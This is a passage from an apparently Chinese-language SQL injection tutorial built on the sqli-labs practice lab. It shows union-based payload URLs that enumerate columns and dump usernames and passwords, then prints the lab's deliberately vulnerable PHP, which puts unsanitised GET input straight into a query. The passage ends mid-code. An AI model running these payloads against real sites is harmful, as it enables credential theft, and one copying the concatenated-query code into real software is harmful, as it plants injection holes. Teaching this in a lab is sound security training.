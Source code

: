 查询users表里面的字段
```sql
http://192.168.1.8/Less-1/?id=-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users'--+
```
![image.png](../../_img/02-Web安全/01-基础知识/1671086653068-5396e3f3-a3f1-4b30-9f6e-e0dade5f8496.png)

查询username 和password
```sql
http://192.168.1.8/Less-1/?id=-1' union select 1,2,group_concat(username,password) from security.users--+
```
![image.png](../../_img/02-Web安全/01-基础知识/1671086768844-44b0d39a-3812-4e42-9969-01cc229f57c1.png)


# 三、报错注入

## 3.1、代码分析
```php
<?php
  //including the Mysql connect parameters.
  include("../sql-connections/sql-connect.php");
error_reporting(0);
// take the variables
if(isset($_GET['id']))
{
  $id=$_GET['id'];
  //logging the connection parameters to a file for analysis.
  $fp=fopen('result.txt','a');
  fwrite($fp,'ID:'.$id."\n");
  fclose($fp);

  // connectivity 


  $sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
  $result=mysql_query($sql);
  $row = mysql_fetch_array($result);

  if($row)
  {
```